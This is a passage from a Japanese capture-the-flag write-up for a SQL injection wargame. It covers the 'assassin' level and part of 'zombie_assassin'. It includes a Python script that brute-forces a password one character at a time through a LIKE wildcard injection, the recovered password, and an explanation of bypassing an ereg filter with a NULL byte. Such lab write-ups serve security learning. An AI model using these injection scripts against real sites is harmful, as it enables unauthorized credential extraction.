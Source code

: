 adminとguestのpwは両方とも8文字だと考えてすすめる．
``` php
$query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
```
1文字ずつ当てていく．
以下のスクリプトを書いた．
``` python
import requests
import string

url = 'https://los.eagle-jump.org/assassin_bec1c90a48bc3a9f95fbf0c8ae8c88e1.php'

mycookie = {
    'PHPSESSID': 'ee20toc74hj5a407ravn5but60'
}

letters = string.digits + string.ascii_letters
ans = ""

for i in range(1, 9):
    for letter in letters:
        print(letter)
        response = requests.get(url + '?pw=' + ans + '{index}%'.format(index = letter), cookies=mycookie)
        if 'Hello guest' in response.text or 'Hello admin' in response.text:
            ans += letter
            break
print(ans)
```
### 回答
得られたパスワードを使う．
``` sql
query : select id from prob_assassin where pw like '832edd10'
```

## zombie_assassin
### 問題 
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```
### 考察
NULLバイトアタックですね．
ereg関数の脆弱性として検査する文字列中にNULL文字が含まれていると，NUll文字よりあとの文字列は検査されないというものがあります．これを利用します．
